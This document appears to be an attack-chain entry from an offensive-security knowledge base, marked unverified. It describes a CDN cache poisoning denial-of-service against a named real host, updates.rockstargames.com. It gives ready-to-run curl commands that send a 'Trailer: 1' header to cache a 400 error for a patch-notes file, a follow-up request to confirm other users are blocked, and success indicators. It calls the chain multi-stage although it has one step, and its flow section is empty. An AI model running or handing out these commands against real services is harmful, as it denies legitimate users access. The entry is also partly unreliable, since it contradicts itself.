

---
tags:
  - cache-poisoning
  - dos
  - http-header
  - cdn
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Impact]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Cache-Poisoning-with-Trailer-Header]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Network Denial of Service]]'
updated_at: '2025-12-14T17:26:55.952Z'
description: >-
  A single-step attack exploiting an unkeyed HTTP 'trailer' header to poison the
  CDN cache on updates.rockstargames.com, resulting in a Denial of Service for
  legitimate users accessing patch notes.
skill_level: intermediate
impact_level: high
id: 468a566a-fbe0-44f1-b34a-4fda886f018e
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Impact]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Network Denial of Service]]'
---
# Cache Poisoning DoS via Unkeyed Trailer Header on Rockstar Updates

Multi-stage attack chain demonstrating a complete attack workflow.

The attack targets a cache poisoning vulnerability in the CDN serving updates.rockstargames.com. By injecting an unkeyed 'trailer' header into a GET request for a patch notes file, the attacker causes the cache to store a malformed 400 Bad Request response. Subsequent legitimate requests from users are served this poisoned response, denying access to the content and causing a Denial of Service (DoS).

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Web platform with CDN (e.g., updates.rockstargames.com)
- Required services: HTTP/HTTPS on port 80/443
- Network access: Public internet access to the endpoint

### Initial Access Requirements

- No credentials required
- External network position (no prior access needed)

## Detailed Attack Procedures

### Step 1: Poison the Cache
procedure: [[procedures/Exploit-Cache-Poisoning-with-Trailer-Header]]

**Objective**: Send a specially crafted HTTP request to poison the CDN cache, storing a 400 response that affects all subsequent legitimate requests to the target endpoint.

**Instructions**: Use [[commands/http-get-trailer-poison]] to craft and send the request targeting the patch notes endpoint:

```bash
curl -X GET "https://updates.rockstargames.com/patches/gtaiv/notes_title_update_6/GTAIVPC_TU6_Patch_Notes_FR.txt?donotpoisoneveryone=1" -H "Host: updates.rockstargames.com" -H "Trailer: 1"
```

Verify the poisoning by sending a follow-up legitimate request without the trailer header and observing the 400 response:

```bash
curl -X GET "https://updates.rockstargames.com/patches/gtaiv/notes_title_update_6/GTAIVPC_TU6_Patch_Notes_FR.txt?donotpoisoneveryone=1"
```

**Expected Output**: Initial request returns a 400 Bad Request. Subsequent requests from any client return the same cached 400 response, confirming DoS.

**Success Indicators**:
- Server responds with 400 status on the poisoning request
- Legitimate follow-up requests receive cached 400 errors
- Access to patch notes is denied for other users until cache expires or is cleared

## Attack Chain Summary

### Key Achievements

1. Successfully poisoned the CDN cache using an unkeyed HTTP header
2. Induced a widespread DoS affecting legitimate users accessing game patch notes
3. Demonstrated impact on a public-facing web service without authentication

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Network Denial of Service]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Impact]]

---
*Last updated: 2023-10-01T00:00:00Z*
